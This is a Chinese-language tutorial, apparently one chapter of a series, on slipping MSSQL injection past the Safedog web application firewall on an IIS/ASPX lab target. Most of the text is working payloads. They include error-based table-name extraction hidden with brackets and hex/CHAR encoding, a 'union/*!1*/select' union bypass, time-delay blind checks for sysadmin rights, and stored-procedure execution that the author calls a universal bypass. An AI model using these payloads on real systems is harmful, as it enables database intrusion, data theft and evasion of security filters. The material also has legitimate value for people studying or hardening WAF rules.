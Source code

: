 
# 0x00 简介

BYPASS无非就是上一期MYSQL讲到的那些方法，灵活的运用即可，值得注意的是我们MSSQL搭配的一般都是 ASP/ASPX IIS 等等,其中我们可以利用容器的特性，和脚本语言的
特性绕过比如ASPX的hpp，iis处理%符号的机制，但是我这里就直接想办法在数据库方面来绕过。


# 0x01 简单的爆错bypass

测试环境 IIS+ASPX+MMSQL+IIS安全狗4.0.2229

简单的判断语句测试

```
and 不拦截

and 1 拦截

and -1 不拦截

and -1=-1 不拦截

and ~1 不拦截

and ~1=1 拦截

and ~1=~1 不拦截

```

差不多判断下 安全狗对负数不是很敏感，对数学运算后的布尔值也不是敏感。

and这块绕过了就可以爆出一些基本的信息了，比如用db_name()、user和@@version 都是可以直接用的，并不会被拦截，至少在我这个版本的狗是这样。

```
and @@version>~1

and (user|1)>-1

and (db_name()|1)>.1

```


我们试试直接通过mssql的一些特性来绕过，爆表名的语句

```
and ~1=(select top 1 name from sysobjects where xtype='u' and name !='info');--  拦截

and ~1=(select top 1 name from);--  不拦截

and ~1=(select top 1 name from 1);-- 拦截

and ~1=(select top 1 name from a);--  拦截

and ~1=(select top 1 name from !);--  不拦截

```

可见安全狗在这里拦截的是我们from后面跟字符型或者数字型，我们就只需要找到一个符号来包裹他就可以，在mssql中可以包裹表库名称的符号是[] 

```
and ~1=(select top 1 name from[sysobjects]);--

```

确实也不拦截继续往后测试

```
and ~1=(select top 1 name from[sysobjects] where xtype='u');--  拦截

and ~1=(select top 1 name from[sysobjects] where xtype=);-- 不拦截

```

很简单我们在mssql中可以用char 和hex 来编码我们的表名

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75);--
```

基本上已经绕过了我们的爆出第一个表名的目的，假如要爆其他的表名 测试发现也是拦截 引号字符而已 用相同的方法绕过即可

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75 and name not in (CHAR(105)%2BCHAR(110)%2BCHAR(102)%2BCHAR(111),CHAR(97)%2BCHAR(100)%2BCHAR(109)%2BCHAR(105)%2BCHAR(110)));

```

![mysql](./img/2.3.1.png)

其实还有一种方法爆表名利用INFORMATION_SCHEMA,但是安全狗有个设置直接拦截这个关键词，但是不是默认开启的，顺便提一下

```
http://192.168.130.137/1.aspx?id=1 and ~1=(select top 1 table_name from [INFORMATION_SCHEMA].[TABLES] where table_name not in (char(105)%2Bchar(110)%2Bchar(102)%2Bchar(111)));--

```


# 0x02 简单的联合bypass

union/*!1113*/

联合注入感觉是个非常简单的bypass过程，因为安全狗的规则把mysql和mssql混为一谈 

```
union 不拦截

union select 拦截

unionselect 拦截

```

感觉是不是已经很绝望没办法绕过了，不妨试试注释，虽然mssql没有内联注释

```
union/*select*/ 不拦截

union/*!select*/ 拦截

union/*!1select*/ 不拦截

```

我们试试闭合他，他还拦截不

```
union/*!1*/select--*/  不拦截

```

我们的最终的payload也构造好了

```
http://192.168.130.137/1.aspx?id=1 union/*!1*/select null,name,null from [info]--*/

```

![mysql](./img/2.3.2.png)



# 0x03 盲注与储存过程

我们前面讲过mysql的一个绕过手法就是注释加换行，这个其实在mssql中也是成立的，所以直接构造payload

```
http://192.168.130.137/1.aspx?id=1--/*%0aif (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--%20*/

```

储存过程

```
http://192.168.130.137/1.aspx?id=1--/*%0aexec xp_create_subdir 'c:\text'--%20*/

```

你可以把当做万能bypass语句，里面的任何代码安全狗都不会拦截



# 0x04 文末


#### 本文如有错误，请及时提醒，避免误导他人

BY 404